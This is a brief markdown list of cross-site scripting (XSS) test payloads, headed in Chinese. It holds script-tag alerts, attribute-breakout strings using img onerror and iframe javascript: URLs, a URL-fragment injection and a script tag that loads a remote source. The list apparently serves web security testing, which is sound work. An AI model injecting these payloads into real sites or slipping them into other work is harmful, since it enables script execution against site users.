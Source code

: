 ## XSS测试payload

- `<script>alert('xss')</script>`

- `http://localhost/x.html#<script>alert('xss')</script>`

- `<script src=http://www.qq.com></script>`

- `"><script>alert(1)</script>`

- `"><img src=x onerror=alert("xss")>`

- `"><iframe src=javascript:alert(1)></iframe>`

- `</script>`

